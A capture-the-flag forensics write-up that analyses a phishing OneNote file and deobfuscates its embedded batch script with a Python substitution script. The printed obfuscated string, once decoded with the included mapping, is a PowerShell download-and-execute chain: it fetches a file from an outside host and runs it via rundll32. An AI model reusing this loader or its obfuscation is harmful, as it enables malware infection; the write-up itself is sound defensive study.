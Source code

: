 # PhishyNote

## Description
Our company recently fell victim to a phishing campaign, and we’ve imaged the affected employee’s Windows profile.  
Your mission is to analyze the evidence, reconstruct the attack chain, and tell us exactly what happened.

---

## Approach

### 1. Initial Setup
- At first, I mistakenly tried to solve this challenge on **Windows**.  
- The OneNote file was flagged and repeatedly **deleted by Windows Defender** before I could analyze it.  
- After multiple failed attempts, I switched to **Kali Linux** to safely analyze the data.

### 2. Locating the Malicious File
- Navigated through the imaged user profile:  
  `Flagyard/AppData/Local/Microsoft/.../Attachments/...`  
- Inside, found a suspicious **OneNote file (~800MB)**.  

### 3. Static Analysis
- Ran `binwalk` on the OneNote file.  
- Discovered hidden artifacts:
  - A **.bat file**  

### 4. Extracting the Payload
- Extracted the embedded files.  
- Opened the `.bat` script in **VS Code** (on Kali Linux).

```python
  import re

# Mapping extracted from your data
mapping = {
    "hbkges":"f", "lozqhj":"u", "yfkbvh":"t", "pstmyd":"d",
    "vuozfr":"r", "kcqmjh":"n", "lwdyaf":"x", "kurwgp":"c",
    "lnkumy":"h", "awhqpx":"j", "jzblsd":"l", "qyohmf":"k",
    "stbail":"p", "pnmksz":"o", "tdnbph":"w", "xjzoqw":"g",
    "fcuhvg":"a", "lfdopz":"z", "eaycnb":"b", "xmtuiw":"i",
    "vrqjpn":"q", "oaficv":"m", "uqpwtj":"s", "bzovaq":"e",
    "hlfnpe":"v", "wmjqdx":"y", "lsgqej":"1", "jdxcvk":"2",
    "oqibzr":"3", "khxkwc":"4", "kqpdjr":"7", "joctzm":"9",
    "pccvye":"A", "zhgvsn":"B", "tdpsuk":"D", "knbdze":"G",
    "ugtsdm":"I", "gxzbva":"M", "nfbqob":"N", "wvgybz":"O",
    "apvnsq":"Q", "xckxbr":"R", "utewjm":"T", "huomwv":"U",
    "fociwf":"Y", "obzzng":"Z", "gawyav":"h", "fdpmuc":"j",
    "uldeia":"l", "wtupwu":"m", "sjlmre":"x", "jmkjnd":"z"
}

# Your obfuscated string (can be multi-line)
text = r"""
%stbail%%pnmksz%%tdnbph%%bzovaq%%vuozfr%%uqpwtj%%lnkumy%%bzovaq%%jzblsd%%jzblsd% %xmtuiw%%kcqmjh%%hlfnpe%%pnmksz%%qyohmf%%bzovaq%-%tdnbph%%bzovaq%%eaycnb%%vuozfr%%bzovaq%%vrqjpn%%lozqhj%%bzovaq%%uqpwtj%%yfkbvh% -%lozqhj%%vuozfr%%xmtuiw% %lnkumy%%yfkbvh%%yfkbvh%%stbail%:
//%oaficv%%vuozfr%%fcuhvg%%uqpwtj%%uqpwtj%%pnmksz%%kurwgp%%xmtuiw%%fcuhvg%%yfkbvh%%yfkbvh%%bzovaq%%uqpwtj%.%kurwgp%%pnmksz%%oaficv%/%xmtuiw%%oaficv%%fcuhvg%%xjzoqw%%bzovaq%%uqpwtj%/%xckxbr%%wtupwu%%sjlmre%%gawyav%%obzzng%%lsgqej%%uldeia%%kqpdjr%%nfbqob%%jdxcvk%%huomwv%%khxkwc%%gxzbva%%utewjm%%gxzbva%%oqibzr%%obzzng%%fdpmuc%%obzzng%%uldeia%%gxzbva%%tdpsuk%%nfbqob%%gawyav%%obzzng%%fdpmuc%%uldeia%%wtupwu%%fociwf%%jdxcvk%%apvnsq%%sjlmre%%wvgybz%%knbdze%%apvnsq%%tdnbph%%nfbqob%%jmkjnd%%pccvye%%jdxcvk%%fociwf%%jdxcvk%%ugtsdm%%oqibzr%%gxzbva%%knbdze%%apvnsq%%oqibzr%%fociwf%%jmkjnd%%zhgvsn%%joctzm%.%xjzoqw%%xmtuiw%%hbkges% -%pnmksz%%lozqhj%%yfkbvh%%hbkges%%xmtuiw%%jzblsd%%bzovaq% %kurwgp%:
\%stbail%%vuozfr%%pnmksz%%xjzoqw%%vuozfr%%fcuhvg%%oaficv%%pstmyd%%fcuhvg%%yfkbvh%%fcuhvg%\COI%oaficv%.%awhqpx%%stbail%%xjzoqw%%vuozfr%%lozqhj%%kcqmjh%%pstmyd%%jzblsd%%jzblsd%32 %kurwgp%:
\%stbail%%vuozfr%%pnmksz%%xjzoqw%%vuozfr%%fcuhvg%%oaficv%%pstmyd%%fcuhvg%%yfkbvh%%fcuhvg%\COI%oaficv%.%awhqpx%%stbail%%xjzoqw%,%xmtuiw%%kcqmjh%%xmtuiw%%yfkbvh%%bzovaq%%lwdyaf%%xmtuiw%%yfkbvh%
...
"""  # shortened for example

# Function to replace all %code% with mapping
def decode_batch(text, mapping):
    # find all %...% placeholders
    pattern = re.compile(r'%([a-zA-Z0-9]+)%')
    
    def repl(match):
        code = match.group(1)
        return mapping.get(code, f"%{code}%")  # keep unchanged if not in mapping
    
    return pattern.sub(repl, text)

decoded_text = decode_batch(text, mapping)
print(decoded_text)





